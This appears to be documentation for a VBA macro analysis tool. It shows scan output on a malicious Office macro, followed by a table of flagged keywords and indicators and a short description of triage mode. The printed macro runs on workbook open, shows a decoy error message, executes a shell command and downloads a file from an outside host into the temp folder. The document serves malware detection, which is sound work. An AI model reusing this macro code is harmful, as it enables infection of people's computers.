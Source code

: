         YKPZZS = Shell(PHHWIV, 1)
        MsgBox "El contenido de este documento no es compatible con este equipo." &
    vbCrLf & vbCrLf & "Por favor intente desde otro equipo.", vbCritical, "Equipo no
     compatible"
        lala = URLDownloadToFileA(0, "http://germanya.com.ec/logs/counter.php", Envi
    ron("TMP") & "\lkjljlljk", 0, 0)
        Application.DisplayAlerts = False
        Application.Quit
    End Function
    Sub Workbook_Open()
        Auto_Open
    End Sub
    
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    ANALYSIS:
    +------------+----------------------+-----------------------------------------+
    | Type       | Keyword              | Description                             |
    +------------+----------------------+-----------------------------------------+
    | AutoExec   | AutoOpen             | Runs when the Word document is opened   |
    | AutoExec   | Auto_Open            | Runs when the Excel Workbook is opened  |
    | AutoExec   | Workbook_Open        | Runs when the Excel Workbook is opened  |
    | Suspicious | Lib                  | May run code from a DLL                 |
    | Suspicious | Shell                | May run an executable file or a system  |
    |            |                      | command                                 |
    | Suspicious | Environ              | May read system environment variables   |
    | Suspicious | URLDownloadToFileA   | May download files from the Internet    |
    | IOC        | http://germanya.com. | URL                                     |
    |            | ec/logs/test.exe"    |                                         |
    | IOC        | http://germanya.com. | URL                                     |
    |            | ec/logs/counter.php" |                                         |
    | IOC        | germanya.com         | Executable file name                    |
    | IOC        | test.exe             | Executable file name                    |
    | IOC        | sfjozjero.exe        | Executable file name                    |
    +------------+----------------------+-----------------------------------------+

### Triage mode (default for multiple files)

When several files are scanned, or when using the option -t, a summary of the analysis for each file is displayed.
This is more convenient for quick triage of a collection of suspicious files.
